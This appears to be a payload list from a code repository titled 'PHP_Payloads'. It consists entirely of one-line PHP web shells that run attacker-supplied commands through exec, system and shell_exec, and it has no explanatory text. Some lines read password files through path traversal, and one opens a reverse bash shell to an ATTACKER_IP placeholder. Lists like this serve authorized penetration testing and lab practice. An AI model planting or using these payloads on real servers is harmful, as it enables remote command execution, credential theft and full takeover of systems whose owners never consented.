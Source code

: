## PHP_Payloads

    <?php exec($_GET['cmd']); ?>
    <?php system($_GET['cmd']); ?>
    <?php echo exec($_GET['cmd']); ?>
    <?php shell_exec($_GET['cmd']); ?>
    <?php system($_GET['command']); ?>
    <?php echo system($_GET['cmd']); ?>
    <?php shell_exec($_GET['command']); ?>
    <?php echo system($_GET['command']); ?>
    <?php echo shell_exec($_GET['cmd']); ?>
    <?php echo shell_exec($_GET['command']); ?>
    <?php echo readfile('../../etc/passwd'); ?>
    <?php echo file_get_contents('../../etc/passwd'); ?>
    <?php $output = shell_exec('cat ../../../.passwd'); echo "$output";  ?>
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1'"); ?>
    <?php if(isset($_GET['cmd'])){ echo '<pre>'; $cmd = ($_GET['cmd']); system($cmd); echo '</pre>'; die; } ?>
